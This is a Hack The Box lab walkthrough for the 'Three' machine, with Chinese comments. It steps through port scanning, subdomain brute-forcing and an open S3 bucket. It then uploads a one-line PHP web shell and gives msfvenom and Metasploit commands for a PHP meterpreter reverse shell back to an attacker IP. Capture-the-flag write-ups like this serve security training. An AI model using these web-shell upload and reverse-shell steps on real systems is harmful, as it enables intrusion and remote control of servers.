 <center>Three</center>





[toc]





## Three

> Three







### 1 .task

1. How many TCP ports are open?

```shell
nmap -v -p- --min-rate 5000 -sV -sC 10.129.191.68

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 17:8b:d4:25:45:2a:20:b8:79:f8:e2:58:d7:8e:79:f4 (RSA)
|   256 e6:0f:1a:f6:32:8a:40:ef:2d:a7:3b:22:d1:c7:14:fa (ECDSA)
|_  256 2d:e1:87:41:75:f3:91:54:41:16:b7:2b:80:c6:8f:05 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: The Toppers
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

2
```

2. What is the domain of the email address provided in the "Contact" section of the website?

```shell
thetoppers.htb
```

3. In the absence of a DNS server, which Linux file can we use to resolve hostnames to IP addresses in order to be able to access the websites that point to those hostnames?

```shell
/etc/hosts
```

4. Which sub-domain is discovered during further enumeration?

```shell
# 对子域名进行爆破
gobuster vhost -u http://thetoppers.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt --append-domain

Found: s3.thetoppers.htb Status: 404 [Size: 21]
Found: gc._msdcs.thetoppers.htb Status: 400 [Size: 306]

s3.thetoppers.htb
```

5. Which service is running on the discovered sub-domain?

```shell
# 将 s3.thetoppers.htb 添加到 hosts文件
10.129.191.68 thetoppers.htb s3.thetoppers.htb

Amazon S3
```

> s3: Amazon Simple Storage Service （Amazon S3） 是由 Amazon Web Services （AWS） 提供的公共云服务。Amazon S3 通过简单的 Web 服务接口提供对象存储。它被广泛用于存储照片，视频，文本文件，文档，PDF文件，并存储大量数据的备份。

6. Which command line utility can be used to interact with the service running on the discovered sub-domain?

```shell
sudo apt install awscli
awscli
```

7. Which command is used to set up the AWS CLI installation?

```shell
aws configure
```

8. What is the command used by the above utility to list all of the S3 buckets?

```shell
# 帮助文档
tldr aws s3

aws s3 ls
```

9. This server is configured to run files written in what web scripting language?

```shell
aws s3 --endpoint=http://s3.thetoppers.htb ls s3://thetoppers.htb
# you php 文件
php 
```









### 3. falg

> falg

![image-20241129152106591](./assets/image-20241129152106591.png)

```shell
# 上传shell
aws s3 --endpoint=http://s3.thetoppers.htb cp shell.php s3://thetoppers.htb
aws s3 --endpoint=http://s3.thetoppers.htb ls s3://thetoppers.htb

# 页面访问 falg
a980d99281a28d638ac68b9bf9453c2b
```

```php
<?php system($_GET("cmd"));?>
```

> 木马生成

```shell
# -p 模块 LHOST 攻击机IP LPORT 端口 -f raw随机
msfvenom -p php/meterpreter/reverse_tcp LHOST=kali主机 LPORT=通信端口 -f raw > shell.php

msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.16.31 LPORT=4444 -f raw > shell.php

```

> 连接木马

```shell
msfconsole

use exploit/multi/handler

set payload php/meterpreter/reverse_tcp

set LHOST 10.10.16.31 

set LPORT 4444

# 攻击
run / exploit

# 连接成功了 help查看可以用命令
meterpreter > 

# 进入shell  
shell
```
